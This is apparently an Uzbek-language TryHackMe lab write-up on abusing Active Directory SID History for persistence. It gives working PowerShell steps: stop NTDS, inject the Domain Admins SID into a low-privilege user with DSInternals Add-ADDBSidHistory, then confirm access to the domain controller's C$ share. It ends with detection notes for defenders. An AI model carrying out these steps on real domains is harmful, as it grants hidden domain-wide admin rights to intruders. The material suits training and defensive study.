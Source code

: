 ### SIDlar va SID Tarixi haqida

**Security Identifier (SID)** — bu har bir foydalanuvchi, guruh yoki boshqa xavfsizlik obyektining noyob identifikatoridir. SID tizim orqali foydalanuvchining huquqlarini kuzatib borish uchun ishlatiladi. Ammo SID'lar bilan birga, **SID tarixi (SID History)** deb ataladigan juda qiziqarli atribut ham mavjud.

---

### SID Tarixi nima va u qanday ishlaydi?

SID tarixi aslida Active Directory migratsiyasi vaqtida foydalanuvchilarning eski resurslarga kirishini ta'minlash uchun ishlatiladi. Yangi domenga o‘tilganda, foydalanuvchiga yangi SID beriladi, lekin eski SID ularning SID tarixi atributiga qo‘shilsa, foydalanuvchi hali ham eski domen resurslariga kira oladi.

Bu esa migratsiya jarayonini silliq qiladi. **Lekin** biz — hujumchilar sifatida, bu imkoniyatdan **doimiylik (persistence)** usuli sifatida foydalanishimiz mumkin.

---

### Tarixni Soxtalashtirish – Abusing SID History

Aslida, SID tarixiga faqat boshqa domenlardan SID qo‘shish talab qilinmaydi. Agar sizda yetarlicha huquq bo‘lsa (odatda **Domain Admin** darajasidagi), o‘z domeningizdagi har qanday SID'ni foydalanuvchining SID tarixi ichiga qo‘shishingiz mumkin.

**Muhim jihatlar:**

* Bunday hujum uchun odatda **Domain Admin** darajasidagi ruxsatlar kerak bo‘ladi.
* SID tarixi orqali qo‘shilgan SID foydalanuvchi kirgan vaqtda uning tokeniga kiritiladi, shuningdek guruh SID'lari ham.
* Agar siz SID tarixi ichiga **Enterprise Admin** SID'ni qo‘shsangiz, bu butun forest bo‘yicha kuchli huquqlarga ega bo‘ladi.
* Foydalanuvchi **Domain Users** guruhida bo‘lsa ham, SID tarixi orqali **Domain Admin** huquqlarini oladi — juda yashirin va xavfli usul.
* Buni yanada yashirin qilish uchun boshqa foydalanuvchi SID tarixini tahrir qilishda ishlatilishi mumkin — shunda asosiy foydalanuvchi o‘zgarishlarda ko‘rinmaydi.

---

### SID Tarixini Soxtalashtirish (Amaliyot)

1. **THMDC** serveriga **Administrator** hisobidan SSH orqali ulanamiz.
2. SID tarixini ko‘rish uchun quyidagilarni bajaramiz:

```powershell
Get-ADUser <foydalanuvchi_nomi> -properties sidhistory,memberof
```

Agar quyidagidek chiqsa:

```text
SIDHistory: {}
```

Demak, hozirda hech qanday SID tarixi mavjud emas.

3. Endi **Domain Admins** guruhining SID'ni topamiz:

```powershell
Get-ADGroup "Domain Admins"
```

Va u quyidagicha ko‘rinadi:

```text
SID: S-1-5-21-3885271727-2693558621-2658995185-512
```

---

### DSInternals bilan SID Tarixini O‘zgartirish

Mimikatz hozirgi kunda LSASS’ni kerakli tarzda patch qila olmaydi, shuning uchun **DSInternals** vositasidan foydalanamiz.

1. **NTDS** xizmatini to‘xtatamiz:

```powershell
Stop-Service -Name ntds -force
```

2. SID tarixini qo‘shamiz:

```powershell
Add-ADDBSidHistory -SamAccountName 'aaron.jones' -SidHistory 'S-1-5-21-3885271727-2693558621-2658995185-512' -DatabasePath C:\Windows\NTDS\ntds.dit
```

3. NTDS xizmatini qayta ishga tushiramiz:

```powershell
Start-Service -Name ntds
```

---

### Tekshirish: DA Huquqlari Olindi

Endi **THMWRK1** mashinasiga past huquqli foydalanuvchi orqali SSH bilan ulanib tekshiramiz:

```powershell
Get-ADUser aaron.jones -Properties sidhistory
```

Chiqarilgan ma’lumotlar orasida quyidagisi bo‘lsa:

```text
SIDHistory : {S-1-5-21-3885271727-2693558621-2658995185-512}
```

Bu — Domain Admins SID — demak foydalanuvchi bu guruhga a’zo bo‘lmasa ham, token orqali huquqlarni olgan.

Endi masalan, `\\thmdc.za.tryhackme.loc\c$` ga kira olsa, demak u to‘liq DA huquqlariga ega:

```powershell
dir \\thmdc.za.tryhackme.loc\c$
```

---

### Blue Team uchun ogohlantirish

Agar siz **Active Directory Users and Computers** konsolini ochsangiz ham, bu SID tarixi atributi ko‘rinadi. Ammo:

* Uni oddiy GUI orqali olib tashlab bo‘lmaydi.
* SID tarixi **protected** atribut bo‘lib, **PowerShell RSAT** cmdlet'lari orqali o‘chirib tashlanadi.
* Bundan ham yomoni, foydalanuvchi **Domain Admins** guruhiga a’zo bo‘lmaydi — shuning uchun ko‘zga tashlanmaydi.
* SID tarixi faqat autentifikatsiya vaqtida tokenga qo‘shiladi — bu esa bu hujumni **aniqlashni juda qiyinlashtiradi**.

---

### Real Voqea Tasavvuri

Aytaylik, siz Blue Team bo‘lib, domenni tikladingiz: KRBTGT parollarini almashtirdingiz, Golden/Silver ticketlarni yo‘q qildingiz, hatto yangi CA server qurdingiz. Ammo hanuz past huquqli hisob orqali DA amallar bajarilmoqda.

Bu siz uchun **yaxshi kun emas**.
